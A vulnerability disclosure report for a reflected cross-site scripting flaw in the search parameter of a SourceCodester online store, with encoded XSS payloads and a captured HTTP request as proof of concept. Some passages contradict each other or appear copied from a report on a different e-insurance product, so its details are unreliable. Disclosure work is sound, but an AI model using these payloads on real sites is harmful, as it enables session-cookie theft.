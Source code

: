 Reflected Cross-Site Scripting Vulnerability in SourceCodester Cosmetics and Beauty Product Online Store - 1.0
:

    Vendor: Sourcecodester
    Product: Cosmetics and Beauty Product Online Store - 1.0
    Product URL: Cosmetics and Beauty Product Online Store - 1.0

Executive Summary

Reflected Cross-Site Scripting (SXSS) vulnerability in Cosmetics and Beauty Product Online Store - 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "Search parameter." input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.
Issue Details

    Vulnerability Name: Reflected XSS in Search parameter.
    Severity: High
    Affected URL: http://localhost/cbpos/?p=products&search=%3Ch1+onmouseover=confirm(document.cookie)%3Ehii%3C/h1%3E
    Affected Parameter: Search parameter.
    HTTP Method: GET

Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "Search parameter" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "Search parameter" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.
Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/cbpos/?p=products&search=%3Ch1+onmouseover=confirm(document.cookie)%3Ehii%3C/h1%3E

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the Search parameter as shown below and send the request to the server.
```bash
search=%3Ch1+onmouseover=confirm(document.cookie)%3Ehii%3C/h1%3E
```

 navigate to homepage and enter the payload in search permater

```bash
firstname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&lastname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&contact=6280957713&gender=Male&default_delivery_address=ssdfsfs&email=mohit.ahir7086%40gmail.com&password=Ramasra1247%40
```

Request:
```bash
GET /cbpos/?p=products&search=%3Ch1+onmouseover=confirm(document.cookie)%3Ehii%3C/h1%3E HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Sec-GPC: 1
Connection: close
Cookie: PHPSESSID=p74o2f7lqfitvojtejdnshjrau; __insuarance__logged=1; __insuarance__key=7273YL1ZQOZ448QSLS6V
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
Impact:

Reflected XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites.
Remediation:

https://portswigger.net/web-security/cross-site-scripting/reflected

https://owasp.org/www-community/attacks/xss/

Weakness Enumeration:

CWE-79

This report highlights the Reflected XSS vulnerability present in the search parameter of http://localhost/e-insurance/Script./core/new_account, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.
